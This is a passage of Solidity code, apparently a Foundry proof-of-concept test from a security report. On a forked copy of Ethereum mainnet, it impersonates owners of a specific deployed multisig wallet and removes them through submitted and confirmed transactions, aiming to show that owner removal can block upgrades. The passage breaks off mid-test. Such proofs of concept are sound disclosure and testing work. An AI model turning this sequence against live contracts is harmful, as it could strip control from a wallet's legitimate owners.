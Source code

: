 ```
        view
        returns (address[] memory _confirmations);
    function transactionCount() external view returns (uint256);
    function changeRequirement(uint256 _required) external;
    function confirmTransaction(uint256 transactionId) external;
    function submitTransaction(
        address destination,
        uint256 value,
        bytes memory data
    ) external returns (uint256 transactionId);
    function required() external view returns (uint256);
    function replaceOwner(address owner, address newOwner) external;
    function executeTransaction(uint256 transactionId) external;
    fallback() external payable;
    receive() external payable;
}

contract POC is Test {
    IMultiSigWallet c = IMultiSigWallet(payable(0x2028834B2c0A36A918c10937EeA71BE4f932da52));

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
    }

    function testRemoveReplaceOwnersBlockingUpgradesPOC() public { 
        address[] memory owners = c.getOwners();
        console.log("Before remove, Owners:");
        for(uint i; i < owners.length; i++) {
            console.log("%d. %s", i, owners[i]);
        }

        uint required = c.required();
        uint initial_tx_id;
        for(uint i;i < owners.length - required; i++) {
            vm.startPrank(owners[i], owners[i]);
            uint _tx_id = c.submitTransaction(address(c), 0, abi.encodeWithSignature("removeOwner(address)", owners[i]));
            console.log("Submitted tx with id : %d to remove owner : %s", _tx_id, owners[i]);
            if (i == 0) {
                initial_tx_id = _tx_id;
            }
            vm.stopPrank();
        }

        console.log("Confirming transaction %d", initial_tx_id);
        vm.prank(owners[1]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id);
        console.log("Owner0 is removed");

        console.log("Confirming transaction %d", initial_tx_id + 1);
        vm.prank(owners[4]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id + 1);
        console.log("Owner1 is removed");

        console.log("prev required: %d", required);
```